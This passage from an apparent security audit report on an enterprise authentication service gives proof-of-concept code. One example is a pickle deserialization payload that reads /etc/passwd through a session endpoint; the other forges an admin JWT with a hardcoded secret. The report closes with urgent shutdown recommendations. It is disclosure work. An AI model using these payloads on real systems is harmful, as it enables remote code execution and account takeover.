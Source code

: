 
## Proof of Concept

### RCE via Pickle:
```bash
# Generate malicious session
echo "import pickle,base64,os;class X:def __reduce__(self):return(os.system,('cat /etc/passwd',));print(base64.b64encode(pickle.dumps(X())))" | python3

# Send to verify_session endpoint
curl -X POST http://localhost:5002/api/verify_session \
  -H "Content-Type: application/json" \
  -d '{"session_id":"MALICIOUS_BASE64_HERE"}'
```

### JWT Forgery:
```python
import jwt
admin_token = jwt.encode(
    {'user_id': 1, 'username': 'admin', 'role': 'admin'},
    'jwt-secret-2024',
    algorithm='HS256'
)
print(f"Forged admin token: {admin_token}")
```

---

## Conclusion

The Enterprise Authentication Service exhibits **catastrophic security failures** at every level. The combination of plaintext passwords, broken cryptography, and remote code execution vulnerabilities creates an authentication system that provides **no actual security**.

**Current State:** COMPLETELY INSECURE - Provides false sense of security while exposing all credentials.

**Recommendation:** **IMMEDIATE SHUTDOWN REQUIRED**. This system must not be used in any environment. Complete redesign required with security-first approach.

**Business Impact if Breached:**
- Total compromise of all user accounts
- Complete system takeover via RCE
- Massive regulatory fines and legal liability
- Irreparable reputation damage
- Potential business closure

---

**Report Classification:** CRITICAL - IMMEDIATE ACTION REQUIRED  
**Distribution:** CEO, CTO, CISO, Legal Department  
**Follow-up Required:** Emergency response team activation  
**Timeline:** System must be offline within 4 hours